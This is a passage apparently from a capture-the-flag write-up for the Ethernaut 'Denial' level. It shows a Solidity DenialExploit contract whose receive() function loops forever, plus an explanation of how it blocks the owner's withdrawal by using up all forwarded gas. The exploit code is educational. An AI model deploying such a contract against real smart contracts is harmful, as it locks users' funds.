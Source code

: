 ```solidity
        denial = _denial;
        owner = msg.sender;
    }

    function exploit() external {
        require(msg.sender == owner, "Not the owner");
        IDenial(denial).setWithdrawPartner(address(this));
    }

    receive() external payable {
        // Infinite loop - consumes all gas
        while(true) {}
    }

    function checkBalance() external view returns (uint256) {
        return IDenial(denial).contractBalance();
    }
}
```

### How It Works

1. **Setup Phase**: 
   - Deploy `DenialExploit` with the target `Denial` contract address
   - Call `exploit()` to register as the withdraw partner

2. **Attack Phase**:
   - When anyone calls `Denial.withdraw()`:
     - The contract calculates 1% of balance to send
     - It calls `partner.call{value: amountToSend}("")`
     - Our malicious `receive()` function gets called with all remaining gas
     - The infinite loop `while(true) {}` consumes all gas
     - The transaction runs out of gas before reaching `owner.transfer()`
     - The owner is denied from receiving funds!

3. **Result**:
   - The `withdraw()` function cannot complete successfully
   - The owner cannot withdraw their share of funds
   - This is a Denial of Service (DoS) attack

### Why This Works

The critical issue is the order of operations and gas forwarding:

```solidity
partner.call{value: amountToSend}("");  // Forwards ALL gas
payable(owner).transfer(amountToSend);  // Never gets executed
```

Since `.call()` forwards all available gas to the partner, and our partner consumes all that gas, there's nothing left for the subsequent operations. The transaction fails with "out of gas" error.

### Execution Steps
